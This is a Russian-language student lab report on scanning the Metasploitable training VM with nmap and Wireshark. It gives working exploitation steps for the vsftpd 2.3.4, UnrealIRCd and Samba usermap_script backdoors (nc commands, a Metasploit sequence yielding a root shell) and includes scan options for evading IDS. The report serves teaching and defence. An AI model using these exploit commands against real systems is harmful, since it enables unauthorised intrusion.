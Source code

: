 # Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Барышков Михаил`

## Задание 1

Скачайте и установите виртуальную машину Metasploitable: <https://sourceforge.net/projects/metasploitable/>.

Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.

Просканируйте эту виртуальную машину, используя **nmap**.

Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.

Сами уязвимости можно поискать на сайте <https://www.exploit-db.com/>.

Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
  
*Приведите ответ в свободной форме.*

---

## Решение 1

1. **Сетевые службы, разрешенные на виртуальной машине:**

![фото1](img/img1.png)
![Фото2](img/img2.png)

В результате сканирования `nmap -sV -A` были обнаружены следующие открытые порты и службы:

- **21/tcp** - FTP (vsftpd 2.3.4)
  - Анонимный вход разрешен (Anonymous FTP login allowed).
- **22/tcp** - SSH (OpenSSH 4.7p1)
- **23/tcp** - Telnet (Linux telnetd)
- **25/tcp** - SMTP (Postfix)
- **53/tcp** - DNS (ISC BIND 9.4.2)
- **80/tcp** - HTTP (Apache 2.2.8)
- **111/tcp** - RPCbind
- **139/tcp, 445/tcp** - Samba (SMB, версия 3.0.20-Debian)
- **3306/tcp** - MySQL (5.0.51a-3ubuntu5)
- **5900/tcp** - VNC (протокол 3.3)
- **6667/tcp** - IRC (UnrealIRCd 3.2.8.1)

2. **Обнаруженные уязвимости (3 примера):**

     1. **Уязвимость в vsftpd 2.3.4 (Backdoor Command Execution)**

    - **Описание:** В версии vsftpd 2.3.4 присутствует бэкдор, который позволяет злоумышленнику выполнить произвольные команды на сервере.
    - **[Ссылка: Exploit-DB: 17491](https://www.exploit-db.com/exploits/16922)**
    - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 21
        USER anyuser:)  
        PASS anypass  
        ```

    После этого бэкдор открывает порт 6200, через который можно получить shell.

    2. **Уязвимость в UnrealIRCd 3.2.8.1 (Backdoor Command Execution)**

     - **Описание:** В данной версии UnrealIRCd присутствует скрытый бэкдор, добавленный злоумышленниками.
     - **[Ссылка: Exploit-DB: 16922](https://www.exploit-db.com/exploits/16922)**
     - **Метод эксплуатации:**

        ```sh
        nc <TARGET_IP> 6667  
        AB; whoami
        ```

    Сервер выполнит команду whoami и вернет результат.

    3. **Уязвимость в Samba 3.0.20 (Username Map Script Command Execution)**

    - **Описание:** Позволяет выполнить произвольные команды через некорректную обработку параметров в username map script.
    - **[Ссылка: Exploit-DB: 16320](https://www.exploit-db.com/exploits/16320)**
    - **Метод эксплуатации:**

        ```sh
        msfconsole  
        use exploit/multi/samba/usermap_script  
        set RHOSTS <TARGET_IP>  
        exploit
        ```  

    В результате получаем shell с правами root (на Metasploitable).

3. **Дополнительные замечания:**

    - **FTP (vsftpd 2.3.4):** Анонимный вход позволяет загружать/скачивать файлы без аутентификации.
    - **Samba 3.0.20:** Открытый доступ к общим папкам (/tmp).
    - **MySQL 5.0.51a:** Устаревшая версия с известными уязвимостями.
    - **Apache 2.2.8:** Возможны уязвимости типа Directory Traversal или RCE (например, через PHP-скрипты).

**Рекомендации:**

- Обновить все службы до актуальных версий.
- Запретить анонимный доступ к FTP и Samba.
- Отключить ненужные сервисы (Telnet, VNC).

## Задание 2

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.

Запишите сеансы сканирования в Wireshark.

Ответьте на следующие вопросы:

- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
- Как отвечает сервер?

*Приведите ответ в свободной форме.*

---

## Решение 2

## Отчет по сканированию Metasploitable различными методами Nmap

### 1. Сравнение режимов сканирования

| Метод       | Флаги TCP | Принцип работы                                                                 | Преимущества                          | Недостатки                          |
|-------------|-----------|-------------------------------------------------------------------------------|---------------------------------------|-------------------------------------|
| **SYN** (-sS) | SYN       | Отправка SYN, анализ ответа (SYN-ACK/RST)                                     | Быстрое, надежное                     | Требует root-прав                  |
| **FIN** (-sF) | FIN       | Отправка FIN, анализ ответа (RST/нет ответа)                                  | Обходит простые файрволы              | Менее надежное                      |
| **Xmas** (-sX)| FIN+PSH+URG | Аналогично FIN, но с дополнительными флагами                                 | Сложнее для детектирования           | Заметнее в сети                     |
| **UDP** (-sU) | UDP       | Отправка UDP-пакета, анализ ICMP-ответа                                       | Обнаруживает UDP-сервисы              | Очень медленное                     |

### 2. Поведение сервера при разных типах сканирования

- #### SYN-сканирование

Клиент → Сервер: [SYN]
Сервер → Клиент: [SYN, ACK] (порт открыт)
Клиент → Сервер: [RST] (разрыв)
ИЛИ
Сервер → Клиент: [RST] (порт закрыт)

![фото3](img/img3.png)
![фото4](img/img4.png)

[Файл WireShark SYN](SYN.pcapng)

- #### FIN-сканирование

Клиент → Сервер: [FIN]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

![фото5](img/img5.png)
![фото6](img/img6.png)

[Файл WireShark FIN](FIN.pcapng)

- #### Xmas-сканирование

Клиент → Сервер: [FIN, PSH, URG]
Сервер → Клиент: [RST] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

![фото7](img/img7.png)
![фото8](img/img8.png)

[Файл WireShark Xmas](Xmas.pcapng)

- #### UDP-сканирование

Клиент → Сервер: [UDP-пакет]
Сервер → Клиент: [ICMP Port Unreachable] (порт закрыт)
ИЛИ
Нет ответа (порт открыт)

![фото9](img/img9.png)
![фото10](img/img10.png)

[Файл WireShark UDP](UDP.pcapng)

### 3. Практические наблюдения из Wireshark

- **SYN**: Четкие SYN-SYNACK-RST последовательности для открытых портов
- **FIN/Xmas**: Отсутствие ответа на открытые порты может давать ложные срабатывания
- **UDP**: Длительные паузы между проверками, ICMP-пакеты при закрытых портах

### 4. Рекомендации по использованию

1. **Для быстрого сканирования**: `nmap -sS -T4 <target>`
2. **Для скрытного сканирования**: `nmap -sF --max-retries 1 <target>`
3. **Для UDP-сервисов**: `nmap -sU -p 53,161,123 <target>`
4. **Для обхода IDS**: `nmap -sX --scan-delay 500ms <target>`
